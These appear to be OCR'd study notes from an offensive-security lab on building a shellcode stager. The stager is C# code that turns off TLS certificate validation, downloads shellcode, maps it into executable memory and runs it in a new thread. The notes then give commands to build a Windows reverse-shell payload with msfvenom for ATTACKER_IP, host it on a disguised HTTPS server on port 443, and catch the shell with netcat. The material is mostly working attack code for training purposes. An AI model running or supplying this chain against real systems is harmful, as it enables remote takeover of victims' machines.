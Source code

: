 ```csharp
    WebClient wc = new WebClient();
    ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
    ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

    byte[] shellcode = wc.DownloadData(url);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

**Create payload for the Stager to Grab**

Create a payload with msfvenom 
p - the payload is stageless
LHOST - the IP address the payload should try to and connect to 
LPORT - the port the payload should try and connect to
f - binary format 
o - the output name of the binary file
b - ? 
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```

Use the openssl command to generate a local private and public key to a host a web server
```shell
openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

Use python to create a web server on port 443 (to look legitimate) and using the ssl certs
```shell
python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

Set up a netcat listener for when the last reverse shell wants to connect to the attacker's machine
```shell
user@AttackBox$ nc -lvp 7474
```

## Introduction to Encoding and Encryption 
